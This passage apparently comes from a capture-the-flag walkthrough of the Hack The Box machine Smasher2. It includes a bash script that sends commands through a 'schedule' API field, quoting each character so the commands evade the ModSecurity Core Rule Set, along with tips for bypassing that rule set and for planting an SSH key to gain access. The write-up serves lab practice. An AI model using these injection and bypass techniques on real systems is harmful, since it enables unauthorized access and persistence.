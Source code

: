 ~~~~bash
#!/bin/bash

HOST=wonderfulsessionmanager.smasher2.htb
CMD=$(echo $1 | sed -r "s/([^ ])/'\1'/g")
SESS=$(mktemp -u)
KEY=fe61e023b3c64d75b3965a5dd1a923e392c8baeac4ef870334fcad98e6b264f8
PROXY=http://127.0.0.1:8080

curl -c $SESS -s -o /dev/null http://$HOST
RESULT=$(curl -s -b $SESS \
              -w "%{http_code}\n" \
              -H "Content-Type: application/json" \
              -d "{\"schedule\":\"$CMD\"}" \
              -x $PROXY \
              http://$HOST/api/$KEY/job)

CODE=$(sed '$!d' <<<"$RESULT")
RESULT=$(sed '$d' <<<"$RESULT")

if [ $CODE -eq 200 ]; then
  echo -e $(echo "$RESULT" \
            | jq . \
            | sed '2!d' \
            | cut -d':' -f2- \
            | sed -e 's/^ "//' -e 's/",$//' \
      | sed 's/\\n$//')
fi

# clean up
rm -rf $SESS
~~~~

I suspect that OWASP ModSecurity Core Rule Set (CRS) is turned on because I can\'t execute certain commands, resulting in `403 Forbidden`.

### Bypassing CRS

It\'s actually pretty easy to bypass CRS with `bash` wildcards such as `[]`, `$`, and `*`. You can even bypass CRS and execure  and even string commands and arguments by wrapping them in single quote, e.g. `'e''c''h''o'`  For the record, `base64` is not prohibited.

<a class="image-popup">
![adb46146.png](/assets/images/posts/smasher2-htb-walkthrough/adb46146.png)
</a>

## Privilege Escalation

I\'ll just let myself in through SSH by injecting a SSH public key I control to `/home/dzonerzy/.ssh/authorized_keys`.


[1]: https://www.hackthebox.eu/home/machines/profile/191
[2]: https://www.hackthebox.eu/home/users/profile/1963
[3]: https://www.hackthebox.eu/home/users/profile/11652
[4]: https://www.hackthebox.eu/